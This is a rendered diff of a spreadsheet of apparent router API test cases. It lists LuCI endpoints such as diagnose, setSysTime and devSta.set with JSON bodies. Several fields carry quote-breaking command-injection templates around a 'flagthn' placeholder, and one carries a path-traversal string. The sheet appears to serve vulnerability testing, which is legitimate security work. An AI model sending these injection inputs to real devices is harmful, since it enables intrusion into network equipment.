

Before and after one commit to AlucardNosferatu/NPEE, an Excel workbook: 408/OS/2024/ModularAutomation/reports/testcases.xlsx, sheet #TEMP, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; addresses are those after the commit; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/408/OS/2024/ModularAutomation/reports/testcases.xlsx (sheet #TEMP)
+++ b/408/OS/2024/ModularAutomation/reports/testcases.xlsx (sheet #TEMP)
-D2: (empty)
+D2: #results↓
+row 3: /cgi-bin/luci/api/network | setNetwork | {"network":{"wan":[{"metric":"0","macaddr":"10:82:3d:f4:32:a0'flagthn'","special_line":"0","proto":"dhcp"}],"lan":[{"macaddr":"10:82:3d:f4:32:9e","lastaddr":"192.168.110.1","netmask":"255.255.255.0","leasetime":"30","ipstart":"192.168.110.1","proto":"static","ipaddr":"192.168.110.1","vlanid":"233","ignore":"0","limit":"254","conflict":"false"},{"ignore":"0","netmask":"255.255.255.0","macaddr":"10:82:3D:9E:21:50","leasetime":"30","ovlanid":"","ipstart":"192.161.12.1","lastaddr":"192.161.12.2","limit":"254","ipaddr":"192.161.12.2","vlanid":"33"}],"version":"1.0.0","configTime":"1680599423","configId":"1680599423","currentTime":"1680599423","wanNum":"1","lanNum":"2"}} |  | #END_OF_ROW
@@ row 4 unhidden: /cgi-bin/luci/api/diagnose | traceroute | {"count":"1","size":"1","target":"baidu.comflagthn"} |  | #END_OF_ROW @@
@@ row 5 unhidden: /cgi-bin/luci/api/diagnose | runPackDiagnose | {"iface":"eth0 flagthn","protocal":"flagthn","size":"2","ip":"flagthn","package":"flagthn"} |  | #END_OF_ROW @@
@@ row 6 unhidden: /cgi-bin/luci/api/diagnose | runPackDiagnose | {"iface":"flagthn","protocal":"flagthn","size":"2","ip":"flagthn","package":"flagthn"} |  | #END_OF_ROW @@
@@ row 7 unhidden: /cgi-bin/luci/api/diagnose | ping | {"count":"1","size":"1","target":"baidu.comflagthn"} |  | #END_OF_ROW @@
@@ row 8 unhidden: /cgi-bin/luci/api/diagnose | nslookup | {"count":"1","size":"1","target":"baidu.comflagthn"} |  | #END_OF_ROW @@
@@ row 9 unhidden: /cgi-bin/luci/api/diagnose | nslookup | {"type":"3","count":"4","size":"64","ttl":"20","target":"www.google.com flagthn","ipType":"v4","dns":"8.8.8.8 flagthn"} |  | #END_OF_ROW @@
@@ row 10 unhidden: /cgi-bin/luci/api/common | setSysTime | {"time":"1","force":"'flagthn'"} |  | #END_OF_ROW @@
@@ row 11 unhidden: /cgi-bin/luci/api/common | setSysTime | {"force":"\"'flagthn'","time":"20230426","pwdTip":"x","setQuick":false} |  | #END_OF_ROW @@
@@ row 12 unhidden: /cgi-bin/luci/api/common | pwdmodify | {u"pwdTip": u"", u"password": u"'flagthn'", u"type": False, u"setQuick": False} |  | #END_OF_ROW @@
@@ row 13 unhidden: /cgi-bin/luci/api/common | allConf | {"search":"'flagthn"} |  | #END_OF_ROW @@
@@ row 14 unhidden: /cgi-bin/luci/api/common | allConf | {"search":"'flagthn'"} |  | #END_OF_ROW @@
@@ row 15 unhidden: /cgi-bin/luci/api/cmd | devSta.set | {"module":"enetCap","noParse":true,"async":null,"remoteIp":false,"data":{"caps":"flagthn","module":"..///.//..//.///../////../root/test1111"},"device":"pc"} |  | #END_OF_ROW @@
@@ row 16 unhidden: /cgi-bin/luci/api/cmd | devSta.set | {"module":"meshpair","noParse":true,"async":null,"remoteIp":false,"data":{"choicepair":"'flagthn # 11:11:22:22:22:22"},"device":"pc"} |  | #END_OF_ROW @@
@@ row 17 unhidden: /cgi-bin/luci/api/cmd | devSta.set | {"module":"dummy","noParse":false,"async":null,"remoteIp":false,"data":{"cmd":"dummy'flagthn'"},"device":"pc"} |  | #END_OF_ROW @@
@@ row 18 unhidden: /cgi-bin/luci/api/cmd | devSta.set | {u"noParse": False, u"module": u"content_audit", u"remoteIp": False, u"device": u"pc", u"async": True, u"data": {u"comment": u"", u"enable": u"1", u"ip_slots": [u"1.1.1.1'flagthn'"], u"ip_group": u"", u"tr_slots": {}, u"applist": [u"\u793e\u4ea4\u8f6f\u4ef6"], u"func": u"ca_set_app_policy", u"policy": u"", u"tr_group": u"\u6240\u6709\u65f6\u6bb5", u"time_mode": u"calendar", u"user_group_list": []}} |  | #END_OF_ROW @@
@@ row 19 unhidden: /cgi-bin/luci/api/cmd | devSta.set | {u"noParse": False, u"module": u"content_audit", u"remoteIp": False, u"device": u"pc", u"async": True, u"data": {u"comment": u"", u"enable": u"1", u"ip_slots": [u"1.1.1.1'flagthn'"], u"ip_group": u"", u"tr_slots": {}, u"action": u"deny", u"func": u"ca_set_url_policy", u"url_class": [u"games"], u"policy": u"", u"tr_group": u"\u6240\u6709\u65f6\u6bb5", u"time_mode": u"calendar", u"user_group_list": []}} |  | #END_OF_ROW @@
@@ row 20 unhidden: /cgi-bin/luci/api/cmd | devSta.set | {u"noParse": False, u"module": u"content_audit", u"remoteIp": False, u"device": u"pc", u"async": True, u"data": {u"entry_name": u"", u"url_list": [u"www.baidu.com"], u"alias_name": u"1111'flagthn'", u"func": u"ca_set_url_list"}} |  | #END_OF_ROW @@
@@ row 21 unhidden: /cgi-bin/luci/api/cmd | devSta.set | {u"noParse": False, u"module": u"content_audit", u"remoteIp": False, u"device": u"pc", u"async": True, u"data": {u"comment": u"", u"model": u"black", u"account": [u"111111"], u"enable": u"1", u"ip_slots": [u"1.1.1.1'flagthn'"], u"ip_group": u"", u"tr_slots": {}, u"func": u"ca_set_im_policy", u"policy": u"", u"tr_group": u"\u6240\u6709\u65f6\u6bb5", u"time_mode": u"calendar", u"user_group_list": []}} |  | #END_OF_ROW @@
```
Also changed, not shown: 11 added rows and 60 hidden or unhidden rows elsewhere in this sheet, hidden cells, 1 other file.
